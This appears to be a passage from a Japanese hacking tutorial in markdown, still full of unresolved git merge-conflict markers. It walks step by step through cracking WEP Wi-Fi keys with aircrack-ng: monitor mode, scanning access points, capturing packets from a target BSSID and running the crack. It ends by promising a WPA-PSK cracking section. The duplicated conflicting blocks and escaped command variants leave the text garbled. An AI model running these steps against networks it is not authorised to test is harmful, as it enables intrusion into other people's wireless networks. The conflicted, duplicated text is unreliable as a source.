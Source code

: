 　それでは解析方法を紹介します。

<<<<<<< HEAD
1：まず無線LANアダプタを確かめよう（不要だと思うが$や#は入力するなよｗ）。
=======
1：まず無線LANアダプタを確かめよう（不要だと思うが$や\#は入力するなよｗ）。
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

$ iwconfig

2：モニターモードに移行します。

<<<<<<< HEAD
$ airmon-ng start wlan0
=======
$ airmon\-ng start wlan0
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　私の環境ではwlan0…。多くの人はwlan0でしょう…。

3：無線LAN受信範囲にあるAPを確認します。

<<<<<<< HEAD
$ airodump-ng wlan0
=======
$ airodump\-ng wlan0
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ここでAPが表示されない人は出直せ…ｗ

4：パケットを収集します。

<<<<<<< HEAD
$ airodump-ng --channel [APチャンネル] --bssid [APMACアドレス] -w [ファイル名] wlan0
=======
$ airodump\-ng \-\-channel [APチャンネル] \-\-bssid [APMACアドレス] \-w [ファイル名] wlan0
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ファイル名はkurione.capのように拡張子をcapにすること！

5：解析を実行します。

<<<<<<< HEAD
$ aircrack-ng kurione-01.cap
=======
$ aircrack\-ng kurione\-01.cap
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

 ここでパスが出なかった人は5,000パケット毎に自動的にクラックが開始されま
す。キャプチャー続けていればですが…。

　以上がWEPの解析方法です。
　これからこの基本事項に少しプラスして、WPAの解析に入ります…。

<<<<<<< HEAD
■0x0B.) 実践WPAクラック（続

　今回の筆者の実験環境はWPA-PSKです。
=======
### 0x0B 実践WPAクラック（続
